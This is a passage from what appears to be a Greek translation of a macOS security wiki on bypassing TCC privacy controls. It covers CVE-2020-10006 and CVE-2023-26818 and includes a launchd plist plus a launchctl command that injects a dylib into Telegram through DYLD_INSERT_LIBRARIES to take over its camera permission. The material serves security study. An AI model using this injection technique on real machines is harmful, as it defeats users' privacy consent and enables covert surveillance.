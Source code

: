 ### CVE-2020-10006

Το δυαδικό αρχείο `/system/Library/Filesystems/acfs.fs/Contents/bin/xsanctl` είχε τα entitlements **`com.apple.private.tcc.allow`** και **`com.apple.security.get-task-allow`**, τα οποία επέτρεπαν την ενσωμάτωση κώδικα μέσα στη διαδικασία και τη χρήση των προνομίων TCC.

### CVE-2023-26818 - Telegram

Το Telegram είχε τα entitlements **`com.apple.security.cs.allow-dyld-environment-variables`** και **`com.apple.security.cs.disable-library-validation`**, οπότε ήταν δυνατό να το καταχραστείτε για να **αποκτήσετε πρόσβαση στα δικαιώματά του** όπως η εγγραφή με την κάμερα. Μπορείτε να [**βρείτε το φορτίο στην ανάλυση**](https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/).

Σημειώστε πώς να χρησιμοποιήσετε τη μεταβλητή περιβάλλοντος για να φορτώσετε ένα βιβλιοθήκη ένα **προσαρμοσμένο plist** δημιουργήθηκε για να ενσωματώσει αυτή τη βιβλιοθήκη και ο **`launchctl`** χρησιμοποιήθηκε για να την εκκινήσει:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>Label</key>
<string>com.telegram.launcher</string>
<key>RunAtLoad</key>
<true/>
<key>EnvironmentVariables</key>
<dict>
<key>DYLD_INSERT_LIBRARIES</key>
<string>/tmp/telegram.dylib</string>
</dict>
<key>ProgramArguments</key>
<array>
<string>/Applications/Telegram.app/Contents/MacOS/Telegram</string>
</array>
<key>StandardOutPath</key>
<string>/tmp/telegram.log</string>
<key>StandardErrorPath</key>
<string>/tmp/telegram.log</string>
</dict>
</plist>
```

```bash
launchctl load com.telegram.launcher.plist
```
## Με ανοιχτές κλήσεις

Είναι δυνατόν να γίνει κλήση στην **`open`** ακόμα και όταν είναι σε λειτουργία αμμόλογης

### Σενάρια τερματικού
